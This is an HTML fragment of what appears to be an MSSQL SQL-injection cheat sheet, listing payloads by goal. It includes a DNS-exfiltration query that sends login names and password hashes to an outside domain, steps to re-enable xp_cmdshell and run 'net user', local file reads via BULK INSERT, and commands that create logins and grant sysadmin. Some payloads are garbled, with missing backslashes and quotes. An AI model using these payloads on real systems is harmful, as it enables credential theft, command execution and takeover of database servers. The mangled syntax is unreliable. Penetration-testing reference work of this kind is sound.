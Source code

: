          <td>Make DNS Requests</td>
         <td>declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’); — nonpriv, works on 2000declare @host varchar(800); select @host = name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’); — priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.&nbsp; Messy but necessary.<br>
            – Also check out theDNS tunnel feature of <a href="http://sqlninja.sourceforge.net/sqlninja-howto.html">sqlninja</a>
         </td>
      </tr>
      <tr>
         <td>Command Execution</td>
         <td>EXEC xp_cmdshell ‘net user’; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:<br>
            EXEC sp_configure ‘show advanced options’, 1; — priv<br>
            RECONFIGURE; — priv<br>
            EXEC sp_configure ‘xp_cmdshell’, 1; — priv<br>
            RECONFIGURE; — priv
         </td>
      </tr>
      <tr>
         <td>Local File Access</td>
         <td>CREATE TABLE mydata (line varchar(8000));<br>
            BULK INSERT mydata FROM ‘c:boot.ini’;<br>
            DROP TABLE mydata;
         </td>
      </tr>
      <tr>
         <td>Hostname, IP Address</td>
         <td>SELECT HOST_NAME()</td>
      </tr>
      <tr>
         <td>Create Users</td>
         <td>EXEC <a href="http://msdn2.microsoft.com/en-us/library/ms173768.aspx">sp_addlogin</a> ‘user’, ‘pass’; — priv</td>
      </tr>
      <tr>
         <td>Drop Users</td>
         <td>EXEC <a href="http://msdn2.microsoft.com/en-us/library/ms189767.aspx">sp_droplogin</a> ‘user’; — priv</td>
      </tr>
      <tr>
         <td>Make User DBA</td>
         <td>EXEC <a href="http://msdn2.microsoft.com/en-us/library/ms186320.aspx">master.dbo.sp_addsrvrolemember</a> ‘user’, ‘sysadmin; — priv</td>
      </tr>
      <tr>
         <td>Location of DB files</td>
         <td>EXEC sp_helpdb master; –location of master.mdf<br>
            EXEC sp_helpdb pubs; –location of pubs.mdf
         </td>
      </tr>
      <tr>
         <td>Default/System Databases</td>
         <td>northwind<br>
            model<br>
            msdb<br>
            pubs — not on sql server 2005<br>
            tempdb
         </td>
      </tr>
   </tbody>
</table>
